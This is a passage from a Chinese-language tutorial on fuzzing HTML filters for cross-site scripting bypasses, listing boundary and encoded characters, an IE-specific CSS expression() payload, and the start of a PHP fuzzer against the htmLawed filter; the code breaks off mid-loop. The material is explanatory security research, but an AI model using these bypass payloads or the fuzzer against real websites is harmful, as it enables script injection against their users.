 能想到的还有

```
空格、<、>、</div> 
```

等，有时候虽然看起来不可能确定错边界，但实际上 filter 的行为往往出人意料，这也正是 fuzzing 存在的意义。

除了边界元素之外还有一种要考虑的是 filter 过滤的元素，例如 filter 过滤 expression，我们就把 expression 也当做随机填充的元素，还有/*和*/、onXXX()等，当 filter 删除或改变这些内容后就有可能会导致边界的改变。

另一个元素是不可视的特殊字符，例如`\t、\r、\n、\0`等等，半个 UNICODE 字符等。还有被 filter 反向解码的字符串，例如`&#XX、%XX、\XX`等。

最后要考虑的确定模版和元素的情况是浏览器的 undocument 行为，例如

```
<<div/style="width:expression(alert(9))">

```

会被 IE 正常解析。这里有两个<，而且 div 后面用/分隔而不是空格，某些 filter 可能考虑不到这样的行为，因为这样写不符合 HTML 语法规范。类似这样的浏览器的奇怪解析方式还有很多，去年分析过 YAHOO Mail 跨站的 DX 都会对 CSS 里面的不正常的 url()记忆犹新吧，我挺佩服发现这种方式的那位老师的，这个的问题看起来似乎并不是仅仅是 filter 的问题，连 IE 对边界的划分都是存在问题的，当然这种问题单单对 IE 来说只是个小 BUG 而不能算漏洞，但是结合了 YAHOO 的 filter 之后却导致了 XSS。

## 0x04 实践练习：本地 fuzzing 的例子

* * *

在实际进行远程黑盒 fuzzing 之前我们先来构造一个本地 fuzzing 的例子来练习一下，看看模版的构造和元素的选择能否达到预想的效果。

我选择了[htmLawed](http://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/index.php)作为 fuzzing 对象，这是一个 php 写的开源的 HTML 过滤器，有兴趣的话可以先到[`www.bioinformatics.org/phplabware/internal_utilities/htmLawed/htmLawedTest.php`](http://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/htmLawedTest.php)这个网站，先手工测试一下看看能不能手工绕过它对 CSS 的过滤，也许大牛是可以手工 XSS 的，反正我试了一会没有成功，没办法，智商就只有这么多。这里我说的是上面那种例子里的样式表 XSS，你可别直接输入一个`<script>`人家是不过滤的，因为这个 filter 还要加参数。

我下载了 htmLawed 之后，在本地做了一个测试程序：

```
<?php
include './htmLawed.php';
$m1=array("'","\""," ","");
$m2=array("","","\"","'","<","","","","","","","","");
$mag=array("'","\""," ","</div>","/*","*/","\\","\\\"","\\\'",";",":","<",">","=","<div","\r\n","","&#","/","*","expression(","w:expression(alert(9));","style=w:expression(alert(9));","");
for($i=0;$i<10000;$i++)
{
$fname = "tc\\hush".$i.".html";
$fp = fopen($fname, "a");
$mtotran = "";
for($j=0;$j<1000;$j++)
{
shuffle($mag);
shuffle($m1);
shuffle($m2);
$mstr=$m2[0];
$mstr.="<div id=";
$mstr.=$m1[0];
$mstr.=$mag[0];
$mstr.=$mag[1];
shuffle($mag);
$mstr.=$mag[0];
$mstr.=$m1[0];
$mstr.=" style=";
shuffle($m1);
$mstr.=$m1[0];
$mstr.="w:exp/*";
shuffle($mag);
$mstr.=$mag[0];
```